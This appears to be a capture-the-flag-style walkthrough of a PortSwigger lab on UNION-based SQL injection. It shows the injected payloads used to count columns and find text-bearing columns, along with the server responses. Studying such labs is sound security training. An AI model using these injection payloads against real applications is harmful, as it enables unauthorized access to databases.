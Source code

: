 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/bb62cddb-eff4-4e33-82b7-2a457ab0d128)

## Solution :
Query made - 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

#### Finding out the number of columns -

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ' UNION SELECT NULL,NULL--
```

**2 NULL** returns no error , which means there are 2 columns in the database.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b8bc92f3-9631-468d-ada3-544e50f640b4)

####  Finding out which columns contain text data -

**1st column**

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'A',NULL --
```

Internal Server Error

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/49e9d2cc-5f43-4353-8d6f-9fe917ead767)


**2nd Column**

This column contains text data 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'A' --
```


